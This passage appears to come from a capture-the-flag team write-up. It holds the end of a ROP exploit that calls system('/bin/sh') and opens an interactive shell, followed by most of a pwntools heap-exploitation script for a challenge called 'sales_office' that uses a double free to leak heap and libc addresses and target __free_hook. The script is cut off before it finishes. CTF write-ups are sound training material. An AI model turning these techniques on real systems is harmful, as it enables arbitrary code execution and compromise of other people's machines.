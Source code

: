 ```python
payload += p64(pop_rdi_ret) + p64(bin_sh_addr)
payload += p64(ret) + p64(system_addr) + p64(main_addr)
sh.sendafter('name? ', payload)
sh.interactive()
```
## **sales_office | SOLVED | working : youn9，zhz , Nop，keer，FMYY**

```
#Msk
from PwnContext import *
context.log_level = 'debug'
ctx.binary = 'sales_office'
ctx.remote_libc = '/home/msk/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc-2.27.so'
ctx.debug_remote_libc = True
libc = ELF('/home/msk/glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc-2.27.so')
def cmd(idx):
    ctx.recvuntil("choice:")
    ctx.sendline(str(idx))
def add(size,dec):
    cmd(1)
    ctx.recvuntil("Please input the size of your house:\n")
    ctx.sendline(str(size))
    ctx.recvuntil("please decorate your house:\n")
    ctx.send(dec)
def show(idx):
    cmd(3)
    ctx.recvuntil('index:\n')
    ctx.sendline(str(idx))
def delete(idx):
    cmd(4)
    ctx.recvuntil('index:\n')
    ctx.sendline(str(idx))
def z():
    ctx.debug()
ctx.start()
add(0x60,'a'*0x60) #0
add(0x60,'a'*0x60) #1
add(0x10,p64(0x602020)+p64(0x100)) #2  0x390
delete(0)
delete(1)
delete(0)
delete(1)
show(0)
ctx.recvuntil("house:\n")
leak = ctx.recvuntil("\n")[:-1]
heap = u64(leak.ljust(0x8,'\x00'))
log.info("heap = " + hex(heap))
add(0x10,p64(0x6020a0))
add(0x10,p64(heap+0x140))
show(0)
ctx.recvuntil("house:\n")
leak = ctx.recvuntil("\n")[:-1]
puts_addr = u64(leak.ljust(0x8,'\x00'))
log.info("puts = " + hex(puts_addr))
libcbase = puts_addr - libc.symbols["puts"]
system = libcbase + libc.symbols['system']
free_hook = libcbase + libc.symbols['__free_hook']
 
delete(2)
delete(2)
delete(1)
```